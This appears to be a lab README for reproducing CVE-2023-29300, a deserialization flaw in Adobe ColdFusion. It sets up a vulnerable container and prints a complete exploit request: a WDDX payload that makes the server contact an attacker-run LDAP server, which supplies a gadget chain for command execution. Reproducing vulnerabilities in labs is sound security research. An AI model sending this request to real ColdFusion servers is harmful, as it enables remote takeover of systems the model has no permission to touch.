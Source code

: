 # Adobe ColdFusion XML Deserialization Leads to RCE (CVE-2023-29300)

[中文版本(Chinese version)](README.zh-cn.md)

Adobe ColdFusion is a commercial rapid web-application development computing platform created by J. J. Allaire in 1995.

Adobe ColdFusion versions 2018 Update 16 (and earlier), 2021 Update 6 (and earlier) and 2023.0.0.330468 (and earlier) are affected by a deserialization of untrusted data vulnerability. Attacker is able to call arbitrary setter function and execute arbitrary commands eventually.

References:

- <https://blog.projectdiscovery.io/adobe-coldfusion-rce/>
- <https://xz.aliyun.com/t/13413>

## Vulnerable environment

Start a Adobe ColdFusion 2018.0.15:

```
docker compose up -d
```

After a few minutes wait, visit `http://your-ip:8500/CFIDE/administrator/index.cfm` with password `vulhub`, you can install the Adobe ColdFusion successfully.

## Exploit

To exploit this issue, you have to find a valid gadget to execute arbitrary code in ColdFusion server. The most common gadget is `com.sun.rowset.JdbcRowSetImpl` that uses the JNDI injection to execute the command.

First, start a ruoguo LDAP server with Java deserialization gadget `CommonsBeanutils1`. There are multiple tools can be used, my suggestion is <https://github.com/rebeyond/JNDInjector/releases>:

![](1.png)

Then, send the following request to ColdFusion server (replace with your LDAP server address):

```
POST /CFIDE/adminapi/accessmanager.cfc?method=foo&_cfclient=true HTTP/1.1
Host: localhost
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.134 Safari/537.36
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 333

argumentCollection=<wddxPacket version='1.0'><header/><data><struct type='xcom.sun.rowset.JdbcRowSetImplx'><var name='dataSourceName'><string>ldap://your.ldap.server/example</string></var><var name='autoCommit'><boolean value='true'/></var></struct></data></wddxPacket>
```

As you can see, the `touch /tmp/success` is executed successfully:

![](2.png)
